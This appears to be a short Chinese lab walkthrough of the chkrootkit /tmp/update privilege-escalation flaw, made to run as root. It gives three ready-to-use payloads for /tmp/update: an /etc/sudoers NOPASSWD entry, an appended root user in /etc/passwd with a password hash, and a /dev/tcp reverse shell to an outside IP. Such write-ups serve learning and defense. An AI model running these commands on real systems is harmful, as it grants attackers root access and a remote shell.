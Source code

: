 找到漏洞  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5975bXHXfWEJunX5ic2ZlxDGVSkQStBIOMUvrlIoIC1PLHXCTmn7bKp4uPOP99CfEfCLMyVcwj2SvgwPvk6oKvg/640?wx_fmt=png&from=appmsg "")  
  
image-20250121014626233  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5975bXHXfWEJunX5ic2ZlxDGVSkQStBIO0KiadvmMCFCRJrXicNbJTFLebpL0MQKQfP0CVnWgxsqs5iaJE6dgZ2IsA/640?wx_fmt=png&from=appmsg "")  
  
image-20250121014748345  
```
We just found a serious vulnerability in the chkrootkit package, which
may allow local attackers to gain root access to a box in certain
configurations (/tmp not mounted noexec).

# 我们刚刚在chkrootkit包中发现了一个严重的漏洞，它可能允许本地攻击者在某些配置（/tmp而不是挂载noexec）下获得root访问权限。

```  
  
查看利用步骤  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5975bXHXfWEJunX5ic2ZlxDGVSkQStBIOiaG4yibpib7lTD6BibIjQrA53L0AGUIdToia7zuatnLrQQXgcsxmTibetlXA/640?wx_fmt=png&from=appmsg "")  
  
image-20250121015022165  
  
大致意思就是说让我们在tmp目录下面创建一个文件叫做 update ，这个update文件呢包含了一些恶意脚本，当我们运行chkrootkit这个工具的时候，这些恶意脚本也会跟着执行，并且是以root身份执行的（它是计划任务，会定时执行）  
  
这里可以利用sudo提权,，将当前用户赋予sudo权限  
```
echo 'echo "www-data  ALL=(ALL)  NOPASSWD:ALL" >> /etc/sudoers' >/tmp/update
chmod +x /tmp/update

```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5975bXHXfWEJunX5ic2ZlxDGVSkQStBIOZDomchniaX564rVtL8o6vicsd569QX13Ow7GnCupIpnWialNfo177HFLA/640?wx_fmt=png&from=appmsg "")  
  
image-20250121020028670  
  
也可以向 /etc/passwd 追加一个用户，密码为 password@123 （使用openssl将这个密码加盐，不加也可以，得到结果advwtv/9yU5yQ，所以完整的命令如下）  
```
echo 'echo "xiaoyu:advwtv/9yU5yQ:0:0:,,,:/root:/bin/bash" >>/etc/passwd' >/tmp/update

```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5975bXHXfWEJunX5ic2ZlxDGVSkQStBIOibc4oMicc7KldiaEibIlD56UsYNQRv4XktnhBKsCiaaXhIBGouu7Vlkp0vQ/640?wx_fmt=png&from=appmsg "")  
  
image-20250121021455119  
  
再者利用nc反弹shell（有思路就可以，这里没有成功）  
```
echo '/bin/bash -i >& /dev/tcp/192.168.209.130/443 0>&1' > /tmp/update

```  
  
如果有错误，或者其他方法还请师傅们指出，灰常感谢  
## 往期推荐  
  
